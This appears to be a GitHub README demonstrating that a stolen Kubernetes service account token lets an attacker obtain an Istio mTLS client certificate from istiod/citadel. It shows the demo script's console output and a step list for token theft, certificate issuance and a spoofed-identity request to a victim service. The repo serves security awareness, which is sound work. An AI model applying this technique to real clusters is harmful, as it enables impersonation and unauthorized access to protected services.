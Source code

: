 # Generating Istio mTLS Client Certs Using Stolen Credentials

Istio service mesh encrypts traffic and validates workload identity using mTLS. In order to populate the sidecar proxies with keys for this use case, the istiod controller contains a certificate authority called citadel, which the sidecar proxies call home to on startup to request client certs. Like many Kubernetes native technologies, access to citadel requires the caller to present a valid Kubernetes service account token. No token, no mTLS client cert.

It is well understood in many contexts that security account tokens should be protected, but (in my experience) it does not seem to be well understood that access to a security account token == ability to spoof identity in the service mesh.

This repo demonstrates the situation.

### Test Setup

The setup contains two namespaces. In the secure namespace is a deployment and service called "victim", and a deployment called "legitclient". An Istio `PeerAuthentication` resource requires all traffic in this namespace to be mTLS encrypted (cleartext traffic will be rejected) and an Istio `AuthorizationPolicy` requires all traffic destined for the "victim" workloads to be identified by the SPIFFE identity `spiffee://cluster.local/ns/secure/sa/legitclient`, which can be read as "this request is coming from the 'secure' namespace and the requesting pod is using the 'legitclient' Kubernetes service account". See [secure.yaml](secure.yaml) for specifics.

![x](foo.png)

### Running The Test

#### Requirements
- a running cluster / valid kubeconfig
- `istioctl install -y` (tested on 1.14 - 1.16)
- openssl
- jq
- [grpcurl](https://github.com/fullstorydev/grpcurl)


#### Do it already!

``` console
$ ./run.sh
 ==  deleting previously generated key and signing request
 ==  deleting previously stolen client cert
 ==  generating a random key and signing request
Generating a 2048 bit RSA private key
..................................+++++
.....................................................................................................................................................................................+++++
writing new private key to 'istio-attack.key'
-----
 ==  'stealing' the service account token from the sidecar proxy of a legit client pod
Forwarding from 127.0.0.1:15012 -> 15012
Forwarding from [::1]:15012 -> 15012
 ==  using service account "legitclient" in namespace "secure" to ask istiod/citadel for a client cert
Handling connection for 15012
./run.sh: line 43: 92868 Terminated: 15          kubectl port-forward svc/istiod -n istio-system 15012:15012
 ==  confirmed that the modulus of our private key matches the modulus of our stolen cert
 ==  istiod has successfully issued us an mTLS client cert!
 ==  copying private key and stolen client cert into attack pod
 ==  attempting to connect to victim service from the attack pod without using stolen credentials
 ==  (we expect connection will fail: reset by peer)
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
curl: (56) Recv failure: Connection reset by peer
command terminated with exit code 56

 ==  attempting to connect to victim service from the attack pod using stolen credentials
 ==  (we expect connection will succeed)
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0{
  "headers": {
    "Accept": "*/*",
    "Host": "victim.secure:80",
    "User-Agent": "curl/7.68.0",
    "X-B3-Sampled": "1",
    "X-B3-Spanid": "84f811a00cada672",
    "X-B3-Traceid": "729bc7a2f7786adb84f811a00cada672",
    "X-Forwarded-Client-Cert": "By=spiffe://cluster.local/ns/secure/sa/default;Hash=08e34416bbb9cdcbf0fe6f83c123f664cd4c9b5bfabd1eea558a80a307f1abad;Subject=\"\";URI=spiffe://cluster.local/ns/secure/sa/legitclient"
  }
}
100   450  100   450    0     0  21428      0 --:--:-- --:--:-- --:--:-- 21428
```

#### What is happening?

When the script executed the following steps will take place:
1. a new private key and certificate signing request will be generated
1. the service account token from the sidecar container of the legitclient pod will be "stolen"
1. the stolen service account token will be used to send the csr to istiod/citadel asking for a signed mTLS client certificate
1. citadel will accept the stolen token and sign the csr, returning an mTLS client certificate with the identity data populated by the claims present in the stolen token
1. we will attempt to plaintext curl the victim service from within the attack pod in the attack namespace, since mTLS is required this connection will be rejected (reset by peer)
1. we will attempt to curl the victim service from within the attack pod in the attack namespace, but this time using the private key and signed client certificate, which will be authenticated using the identity of the legitclient in the secure namespace.

### References

https://github.com/istio/istio/blob/master/pkg/istio-agent/README.md

